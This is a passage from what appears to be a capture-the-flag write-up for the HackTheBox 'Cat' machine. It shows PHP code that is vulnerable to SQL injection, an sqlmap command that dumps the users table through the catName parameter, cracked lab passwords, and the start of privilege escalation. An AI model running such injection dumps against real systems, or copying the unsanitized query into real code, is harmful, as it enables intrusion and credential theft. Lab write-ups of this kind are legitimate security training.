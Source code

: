 The following lines directly inserts the data to the database without a proper sanitization:

```php
if (isset($_POST['catId']) && isset($_POST['catName'])) {
    $cat_name = $_POST['catName'];
    $catId = $_POST['catId'];
    $sql_insert = "INSERT INTO accepted_cats (name) VALUES ('$cat_name')";
    $pdo->exec($sql_insert);
```


Our vulnerable parameter is `catName`, we can use `sqlmap` in the following way knowing all this:

```
sqlmap -u "http://cat.htb/accept_cat.php" --data "catId=1&catName=catty" --cookie="PHPSESSID=801vfm5g8gtq70mcf4aosm7iov" -p catName --level=5 --risk=3 --dbms=SQLite --technique=B -T "users" --threads=4 --dump
```

If we check the output we can notice this:

![](Pasted image 20250416123555.png)

So, we got an username `rosa`, and a hash, let's crack the hash:

![](Pasted image 20250416123641.png)

We got credentials:

```
rosa:soyunaprincesarosa
```


Let's go into ssh:


![](Pasted image 20250416123724.png)

Let's begin privilege escalation.



# PRIVILEGE ESCALATION
---


We can use `linpeas` to check for a PE vector:

![](Pasted image 20250416124804.png)

We can see `access.log` is here, let's read it:

![](Pasted image 20250416124841.png)

There we go, we got `axel` password:

```
axel:aNdZwgC4tI9gnVXv_e3Q
```
